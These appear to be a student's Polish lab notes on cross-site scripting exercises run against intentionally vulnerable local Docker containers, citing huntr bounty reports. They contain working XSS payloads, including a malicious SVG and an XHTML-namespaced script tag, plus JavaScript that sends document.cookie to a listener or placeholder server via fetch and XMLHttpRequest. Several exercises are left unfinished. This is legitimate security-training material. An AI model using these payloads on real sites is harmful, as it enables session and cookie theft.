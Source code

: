 ## Problem z podmanem (wymiana na Dockera)

https://medium.com/@nocerainfosec/docker-on-parrot-os-security-5-3-a-fresh-and-foolproof-installation-guide-5d8e9cd9e159

## Podniesienie kontenera z docker-compose podanym w pliku

`docker compose -f <nazwa_pliku_z_docker_compose>.yml up`

# XSS ([lab8.pdf]())

**Payloady** (a raczej ich kawałki w JS)

- `alert("Jakiś tekst")` → wyświetla okienko popup z treścią w nawiasach

- `document.cookie` → jeśli nie ustawiono flagi `HttpOnly`, wyświetla cookie

- `<script>`Kod w JS`</script>` → nesting skryptu w php/html

## Zadanie 9.1

![](screenshots/XSS/zadanie1.png)

- wchodzimy na serwer `localhost:9091/admin/index.php`

- dane do logowania są w docker compose: `admin:password`

- przechodzimy do tworzenia nowej ankiety

- w nazwie wpisujemy payload, np `a'<script>alert(document.cookie)</script>`

- przechodzimy do podglądu ankiety. Pojawia się okienko, ale puste. To dlatego, że w cookie jest ustawiona flaga `HttpOnly: true`

## Zadanie 9.2

![Zadanie 3](./screenshots/XSS/zadanie2.png)

- wchodzimy na serwer `localhost:9092/admin/index.php`

- `admin:password`

- sytuacja dokładnie taka sama jak powyżej

## Zadanie 9.3

![](./screenshots/XSS/zadanie3.png)

- wchodzimy na serwer `localhost:9094/admin/index.php`

- `admin:password`

- WRÓCIĆ DO TEGO CUDEŃKA

## Zadanie 9.4

![](./screenshots/XSS/zadanie4.png)

- `docker run -dp 9094:80 mazurkatarzyna/cwe-79-ex4:latest`

- Uruchamiamy aplikację na porcie 9094 localhosta

- Ustawiamy dane (np. a: a: a: a) i uruchamiamy instalację. Kontener o dziwo nie padł. 

- Zapoznajemy się z opisem podatności na huntr.dev: [CVE-2022-0963]([huntr - The world’s first bug bounty platform for AI/ML](https://huntr.com/bounties/a89a4198-0880-4aa2-8439-a463f39f244c)

- Przygotowujemy payload podobny jak do tego ze strony. Np.
  `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.cookie)</x:script>`. Powyższe cudo wyświetli nam wszystkie pliki cookie ze strony.

- Aby wysłać coś na inny serwer, można posłużyć się [na przykład tym poradnikiem]([XMLHttpRequest: send() method - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send). Ja spróbuję
  
  - uruchomić netcata na porcie 1111 localhosta
    `nc -l -p 1111` (na wszystkich interefjsach) lub `netcat -l 127.0.0.1 -p 1111` (tylko na localhost)
  
  - przygotować odpowiedni skrypt w javascripcie, np:
    
    ```
    <x:script xmlns:x="http://www.w3.org/1999/xhtml">
      fetch("http://127.0.0.1:1111/?cookie=" + encodeURIComponent(document.cookie))
    </x:script>
    ```
    
    ![](screenshots/2025-01-25-14-13-40-image.png)

- Aby dodać do aplikacji nowego usera, trzeba podglądnąć request który to robi i spreparować taki sam wstawiając w odpowiednie miejsce wartość cookie. 

## Zadanie 9.5

![](./screenshots/XSS/zadanie5.png)

- `docker run -dp 5230:5230 mazurkatarzyna/cwe-79-ex5:latest`

- Aplikacja słucha na `5230`

- [Opis podatności na huntr.com](https://huntr.com/bounties/7e1be91d-3b13-4300-8af2-9bd9665ec335)

- plik `filename.svg` wygląda tak:
  
  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
     <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
     <script type="text/javascript">
        alert(document.location);
     </script>
  </svg>
  ```

- Wysyłamy plik na serwer, potem wchodzimy w pliki i znajdujemy direct linka do tego serwera

- Wyświetlanie cookies: `alert(document.cookie)`

- Wysyłanie cookie na serwer:
  
  ```javascript
  const sock = new XMLHttpRequest();
  sock.open("POST", "http://<ip/serwera>:<numer_portu>/<ew. ścieżka>")
  sock.send(document.cookie)
  sock.close()
  ```

## Zadanie 9.6

![](./screenshots/XSS/zadanie6.png)

- wgranie pliku `.xml`

## Zadanie 9.7

![](./screenshots/XSS/zadanie7.png)

- wstrzyknięcie payloadu [opis tutaj](https://huntr.com/bounties/01b0917d-f92f-4903-9eca-bcfc46e847e3)

## Zadanie 9.8

![](./screenshots/XSS/zadanie8.png)

- [opis ataku](https://huntr.com/bounties/78233bfa-871d-45e1-815f-dee73e397809)

# Remote Code  Execution

